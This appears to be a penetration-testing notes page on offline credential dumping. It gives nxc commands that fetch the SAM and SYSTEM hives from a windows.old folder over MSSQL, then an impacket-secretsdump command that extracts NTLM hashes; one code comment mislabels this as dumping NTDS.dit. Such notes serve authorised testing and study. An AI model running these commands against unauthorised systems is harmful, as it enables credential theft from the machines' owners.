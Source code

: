 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Local SAM Dump

If we have access to a `windows.old` directory or an old Windows backup, we can extract the `SYSTEM` and `SAM` registry hives to perform offline credential dumping:

* The `SAM` hive contains encrypted NTLM password hashes for local user accounts
* The `SYSTEM` hive holds the boot key required to decrypt them.&#x20;

{% code overflow="wrap" %}
```bash
# Download files with nxc
$ uv run nxc mssql <target-IP> -u sql_svc -p <pass> --get-file "c:\windows.old\windows\System32\SYSTEM" ./SYSTEM

$ uv run nxc mssql <target-IP> -u sql_svc -p <pass> --get-file "c:\windows.old\windows\System32\SAM" ./SAM

# Dump NTDS.dit
impacket-secretsdump -system SYSTEM -sam SAM LOCAL
```
{% endcode %}

> _This technique is conceptually the same as using_ [_`mimikatz lsadump::sam`_](../ad-tools/mimikatz.md#cached-creds)_, which performs the same operation but directly on a live system._
